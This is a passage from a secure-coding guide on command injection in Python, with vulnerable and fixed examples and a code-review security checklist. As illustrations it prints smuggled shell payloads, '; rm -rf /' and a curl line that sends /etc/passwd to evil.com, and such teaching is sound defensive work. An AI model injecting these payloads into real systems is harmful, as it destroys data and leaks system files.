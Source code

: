 **Description**: Executing arbitrary system commands

**Detection**:
```python
# ❌ VULNERABLE: Unsanitized input to shell
import os
filename = request.args.get('file')
os.system(f"cat {filename}")  # Can execute: `; rm -rf /`

# ❌ VULNERABLE: Shell=True with user input
import subprocess
subprocess.run(f"ping {host}", shell=True)
```

**Fix**:
```python
# ✅ SAFE: Avoid shell, use list arguments
import subprocess
filename = request.args.get('file')
subprocess.run(['cat', filename])  # Arguments properly escaped

# ✅ SAFE: Input validation (allowlist)
import re
if not re.match(r'^[a-zA-Z0-9_.-]+$', filename):
    abort(400, "Invalid filename")
subprocess.run(['cat', filename])

# ✅ SAFE: Use libraries instead of shell commands
# Instead of `cat file`, use Python's open()
with open(filename, 'r') as f:
    content = f.read()
```

**Why it matters**:
Attackers can:
- Execute arbitrary commands: `; rm -rf /`
- Steal data: `; curl http://evil.com/$(cat /etc/passwd)`
- Install backdoors

---

## Security Checklist

Before approving code:

- [ ] **SQL Injection**: Parameterized queries, ORM usage
- [ ] **XSS**: Escaped output, no innerHTML with user data
- [ ] **CSRF**: CSRF tokens, SameSite cookies
- [ ] **Authentication**: Server-side checks, secure session IDs, expiration
- [ ] **Cryptography**: Strong hashing (bcrypt, Argon2), AES encryption, no hard-coded keys
- [ ] **Secrets**: Environment variables, secret managers, no commits
- [ ] **Authorization**: Permission checks, no client-side trust
- [ ] **Path Traversal**: Sanitized paths, allowlist validation
- [ ] **Command Injection**: No shell=True, input validation
